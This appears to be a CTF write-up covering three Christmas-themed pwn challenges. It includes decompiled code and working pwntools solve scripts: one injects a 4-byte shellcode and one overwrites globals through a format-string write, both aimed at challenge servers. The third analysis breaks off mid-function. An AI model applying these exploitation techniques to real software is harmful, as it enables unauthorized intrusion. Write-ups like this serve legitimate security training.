










# SHL33T

## challenge info

- **Challenge Name:** `SHL33T`<br>
- **Category:** PWN<br>
- **Difficulty:** very easy


## Initial Analysis

We are given a binary `shl33t`

```sh frame="none" ShowLineNumbers=false
$ file shl33t

shl33t: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d6bd527d1e1ffe23cd8cde17a97cf771c50738e7, for GNU/Linux 3.2.0, not stripped
```

- **64-bit ELF:** We're dealing with x86-64 architecture.
- **PIE executable:** Addresses are randomized.
- **Dynamically linked:** Uses shared libraries.
- **Not stripped:** Debug symbols are present.

```sh frame="none" ShowLineNumbers=false
$ checksec --file=shl33t 

    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

- **Full RELRO:** GOT is read-only.
- **Stack Canary:** Stack overflow protection is enabled.
- **NX enabled:** Non-executable stack.
- **PIE:** Addresses are randomized.
- **SHSTK:** Shadow stack (anti-ROP).
- **IBT:** Indirect branch tracking.

Running the binary we observe the following behavior:



The program takes our input and does something to it, however based on the output we know that we should change that value for the register `ebx` from `0x00001337` to `0x13370000`.

## Reverse Engineering

Using Ghidra we can decompile the binary. Here's the main function:

```c
undefined8 main(void)

{
  long lVar1;
  code *__buf;
  ssize_t sVar2;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  banner();
  signal(0xb,handler);
  signal(4,handler);
  info("These elves are playing with me again, look at this mess: ebx = 0x00001337\n");
  info("It should be ebx = 0x13370000 instead!\n");
  info("Please fix it kind human! SHLeet the registers!\n\n$ ");
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  if (__buf == (code *)0xffffffffffffffff) {
    perror("mmap");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  sVar2 = read(0,__buf,4);
  if (0 < sVar2) {
    (*__buf)();
    fail("Christmas is ruined thanks to you and these elves!\n");
    if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
      return 0;
    }
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  fail("No input given!\n");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

The program allocates a RWX memory region.
```c
__buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
```

Reads 4 bytes into that memory region and then executes it.
```c
sVar2 = read(0,__buf,4);

(*__buf)();
```

## Exploitation

No need to dig deeper, all we gotta do is change the value for the register `ebx` from `0x00001337` to `0x13370000` using shellcode.<br>
My first instinct was something like this:
```asm
mov ebx, 0x13370000
```

But then i realized that the input size is only 4 bytes, instead we can just shift the value by 16 bits to the left and then return.
```asm
shl ebx, 16
ret
```

## Solution

Full solve script:

```python
from pwn import *

elf = context.binary = ELF('./shl33t')
#p = elf.process()
p = remote('154.57.164.70',32458)

pl = asm('''
         shl ebx, 16
         ret
         ''')

print(f'payload length: {len(pl)}')

p.sendlineafter(b'$',pl)
p.interactive()
```

Running the script will give us the flag




# Feel My Terror

## challenge info

- **Challenge Name:** `Feel My Terror`<br>
- **Category:** PWN<br>
- **Difficulty:** easy


## Initial Analysis

We are given a binary `Feel My Terror`

```sh frame="none" ShowLineNumbers=false
$ file feel_my_terror 

feel_my_terror: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0279c438d7336af633d04b39a9271e3a60746262, for GNU/Linux 3.2.0, not stripped
```

- **64-bit ELF:** We're dealing with x86-64 architecture.
- **Dynamically linked:** Uses shared libraries.
- **Not stripped:** Debug symbols are present.

```sh frame="none" ShowLineNumbers=false
$ checksec --file=feel_my_terror        

    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

- **Full RELRO:** GOT is read-only.
- **Stack Canary:** Stack overflow protection is enabled.
- **NX enabled:** Non-executable stack.
- **No PIE:** Addresses are fixed.
- **SHSTK:** Shadow stack (anti-ROP).
- **IBT:** Indirect branch tracking.

Running the binary we observe the following behavior:



The program takes our input and then prints it back, it also shows us 5 values from 5 addresses.

## Reverse Engineering

Using Ghidra, we can decompile the binary. Here are the key functions:

### main

```c

undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_d8 [200];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  banner();
  randomizer();
  local_d8[0] = '\0';
  local_d8[1] = '\0';
  local_d8[2] = '\0';
  local_d8[3] = '\0';
  local_d8[4] = '\0';
  .
  .
  <SNIP>
  .
  .
  info("Look at the mess the ELVES made:\n\n--------------------\nAddress 1: 0x%x\nAddress 2: 0x%x\n Address 3: 0x%x\nAddress 4: 0x%x\nAddress 5: 0x%x\n--------------------\n"
       ,arg1,arg2,arg3,arg4,arg5);
  info("Please fix the addresses to help me deliver the gifts :)\n\n> ");
  read(0,local_d8,197);
  info("I hope the addresses you gave me are correct..\n\n");
  printf(local_d8);
  fflush(stdout);
  info("Checking the database...\n");
  check_db();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The main function calls a `randomizer()`, nulls out the buffer and takes input from the user, and then prints it using `printf(buf)` which gives us format string vulnerability, then calls `check_db()`.

### randomizer

```c
void randomizer(void)

{
  long lVar1;
  int iVar2;
  time_t tVar3;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  tVar3 = time((time_t *)0x0);
  srand((uint)tVar3);
  iVar2 = rand();
  arg1 = iVar2 % 0x10000000 + 1;
  iVar2 = rand();
  arg2 = iVar2 % 0x10000000 + 1;
  iVar2 = rand();
  arg3 = iVar2 % 0x10000000 + 1;
  iVar2 = rand();
  arg4 = iVar2 % 0x10000000 + 1;
  iVar2 = rand();
  arg5 = iVar2 % 0x10000000 + 1;
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function initializes five global variables with random values.

### check_db

```c
void check_db(void)

{
  int __fd;
  long in_FS_OFFSET;
  char local_48 [56];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48[0] = '\0';
  local_48[1] = '\0';
  local_48[2] = '\0';
  local_48[3] = '\0';
  .
  .
  <SNIP>
  .
  .
  __fd = open("./flag.txt",0);
  if (__fd == -1) {
    fail(
        "If you run this locally, create \'flag.txt\'.\nIf you run this remotely, contact w3th4nds."
        );
  }
  read(__fd,local_48,0x2f);
  if ((((arg1 == L'\xdeadbeef') && (arg2 == 0x1337c0de)) && (arg3 == L'\xf337babe')) &&
     ((arg4 == 0x1337f337 && (arg5 == L'\xfadeeeed')))) {
    success("Thanks a lot my friend <3. Take this gift from me: \n");
    puts(local_48);
    close(__fd);
  }
  else {
    fail("All people do is LIE!\n");
    close(__fd);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function opens flag.txt, reads its contents into a local buffer, and prints it only if five global variables (arg1–arg5) match hardcoded magic values:

```sh ShowLineNumbers=False Frame=none
arg1 = 0xDEADBEEF
arg2 = 0x1337c0de
arg3 = 0xF337BABE
arg4 = 0x1337f337
arg5 = 0xFADEEEED
```

## Exploitation

The plan is simple, using the format string vulnerability we can overwrite the values for those global variables and since PIE is disabled their addresses are fixed and no base address leak is required.

First we find the offset for our input, we can do something simple like sending a bunch of `%p` and then checking where our input is or we can do something like this to better visualize it:
```python
pl = ''
for i in range(1,10):
    pl += f'{i}:%{i}$p '

p.sendline(pl.encode())
```



We notice that our input is at offset 6, `0x3220702431253a31` decodes to `2 p$1%:1` which is our input in little endian.

## Solution

Here’s the complete exploit script:

```python
from pwn import *

elf = context.binary = ELF('./feel_my_terror')
#p = elf.process()
p = remote('154.57.164.71',30683)

payload = fmtstr_payload(6, {
    elf.symbols['arg1']: 0xDEADBEEF,
    elf.symbols['arg2']: 0x1337c0de,
    elf.symbols['arg3']: 0xF337BABE,
    elf.symbols['arg4']: 0x1337f337,
    elf.symbols['arg5']: 0xFADEEEED
    }, write_size='short')

p.sendafter(b'>',payload)
p.interactive()
```

Running it gives us the flag



**Flag:** `HTB{1_l0v3_chr15tm45_&_h4t3_fmt}`

# Starshard Core

## challenge info

- **Challenge Name:** `Starshard Core`<br>
- **Category:** PWN<br>
- **Difficulty:** medium<br>


## Initial Analysis

We are given a binary `Starshard Core` and a glibc.

```sh frame="none" ShowLineNumbers=false
$ file starshard_core

starshard_core: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter glibc/ld-2.34.so, for GNU/Linux 3.2.0, BuildID[sha1]=bdf30acf784bc14c236f0f384162aa3348c6c049, with debug_info, not stripped
```

- **64-bit ELF:** We're dealing with x86-64 architecture.
- **PIE executable:** Addresses are randomized.
- **Dynamically linked:** Uses shared libraries.
- **Not stripped:** Debug symbols are present.

```sh frame="none" ShowLineNumbers=false
$ checksec --file=starshard_core 

    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./glibc'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

- **Full RELRO:** GOT is read-only.
- **Stack Canary:** Stack overflow protection is enabled.
- **NX enabled:** Non-executable stack.
- **PIE:** Addresses are randomized.
- **SHSTK:** Shadow stack (anti-ROP).
- **IBT:** Indirect branch tracking.

Running the binary we observe the following behavior:



We have a menu-driven interface, the program asks for a `Tinkerer Name` at the start, then provides options to arm, attach, cancel, and commit a routine or quit.

## Reverse Engineering

Using Ghidra, we can decompile the binary. Here are the key functions:

### main

```c
int main(void)

{
  char cVar1;
  char *pcVar2;
  size_t sVar3;
  char option;
  
  setup();
  banner();
  printf("Tinselwick Tinkerer Name: ");
  pcVar2 = fgets(console_state.tinkerer_name,0x10,stdin);
  if (pcVar2 == (char *)0x0) {
    puts("[!] Input error.");
    return 1;
  }
  sVar3 = strcspn(console_state.tinkerer_name,"\n");
  console_state.tinkerer_name[sVar3] = '\0';
  printf("=== Welcome ");
  printf(console_state.tinkerer_name);
  puts(&DAT_00102317);
  do {
    cVar1 = menu();
    switch(cVar1) {
    case '1':
      arm_routine();
      break;
    case '2':
      feed_fragment();
      break;
    case '3':
      cancel_routine();
      break;
    case '4':
      commit_routine();
      break;
    case '5':
      puts("[*] Exiting Starshard Console.");
      return 0;
    default:
      puts("[!] Invalid option.");
    }
  } while( true );
}
```

We have a global struct `console_state`, based on some simple analysis this is the struct:

```c ShowLineNumbers=false
struct ConsoleState {
    char tinkerer_name[16];   
    char spell_name[24];   
    FILE *core_log;         
    char *spell_fragment;    
    size_t fragment_sz;       
};

struct ConsoleState console_state;
```

The main function initializes the program and asks for the user's name, it then prints it back using:
```c
printf(console_state.tinkerer_name);
```
Which gives us a format string vulnerability, the name size is 16 bytes and only gets called at the beginning so we can only use it to leak addresses. It then enters an infinite loop displaying the menu.

### arm_routine

```c
void arm_routine(void)

{
  int iVar1;
  int ch;
  size_t i;
  
  console_state.core_log = (FILE *)fopen("starshard_core.txt","a");
  if ((FILE *)console_state.core_log == (FILE *)0x0) {
    perror("fopen");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  setvbuf((FILE *)console_state.core_log,(char *)0x0,2,0);
  printf("Enter Starshard Routine Name: ");
  i = 0;
  while (i < 24) {
    iVar1 = fgetc(stdin);
    if ((iVar1 == -1) || (iVar1 == 10)) break;
    console_state.spell_name[i] = (char)iVar1;
    i = i + 1;
  }
  printf(&DAT_001020ef,0x104070);
  return;
}
```

This function starts by opening a file stream `fopen`. This allocates a FILE structure on the heap and stores the pointer in the global `console_state.core_log`. It then takes 24 bytes of input and store it in `console_state.spell_name`.<br>
There is a vulnerability here that gives us a heap leak. The function fills the spell_name buffer but fails to enforce null termination if the user provides exactly 24 bytes. Because the console_state struct is packed, `spell_name[24]` is immediately followed by the `core_log` pointer in memory.<br>
When the program subsequently prints the name using `printf("%s", console_state.spell_name)`, it doesn't find a null terminator at the end of the name and continues reading into the adjacent memory, effectively printing the raw bytes of the `core_log` heap pointer.

This was interesting but it wasn't really useful in the exploitation later.


### feed_fragment

```c

void feed_fragment(void)

{
  long lVar1;
  char *pcVar2;
  long in_FS_OFFSET;
  char size_str [16];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  if (console_state.core_log == (FILE *)0x0) {
    puts("[!] No active Starshard routine.");
  }
  else {
    console_state.spell_fragment = (char *)0x0;
    console_state.fragment_sz = 0;
    printf("Wish-Script Fragment Size: ");
    size_str[0] = '\0';
    size_str[1] = '\0';
    size_str[2] = '\0';
    size_str[3] = '\0';
    size_str[4] = '\0';
    size_str[5] = '\0';
    size_str[6] = '\0';
    size_str[7] = '\0';
    size_str[8] = '\0';
    size_str[9] = '\0';
    size_str[10] = '\0';
    size_str[0xb] = '\0';
    size_str[0xc] = '\0';
    size_str[0xd] = '\0';
    size_str[0xe] = '\0';
    size_str[0xf] = '\0';
    pcVar2 = fgets(size_str,0x10,stdin);
    if (pcVar2 == (char *)0x0) {
      puts("[!] Invalid input.");
    }
    else {
      console_state.fragment_sz = strtoull(size_str,(char **)0x0,10);
      if (console_state.fragment_sz < 501) {
        console_state.spell_fragment = (char *)malloc(console_state.fragment_sz);
        if (console_state.spell_fragment == (char *)0x0) {
          perror("malloc");
                    /* WARNING: Subroutine does not return */
          exit(1);
        }
        puts("Input Wish-Script Fragment:");
        pcVar2 = fgets(console_state.spell_fragment,(int)console_state.fragment_sz + -1,stdin);
        if (pcVar2 == (char *)0x0) {
          puts("[!] Fragment input error.");
        }
        else {
          puts("[*] Fragment Stored.");
        }
      }
      else {
        puts("[!] Fragment exceeds safe sparkle limit.");
      }
    }
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Asks the user for a size then allocates a buffer of that size using `malloc` and stores the pointer in `console_state.spell_fragment`. It then reads input into that allocated memory.

### cancel_routine

```c
void cancel_routine(void)

{
  if (console_state.core_log == (FILE *)0x0) {
    puts("[!] No active routine.");
  }
  else {
    fclose((FILE *)console_state.core_log);
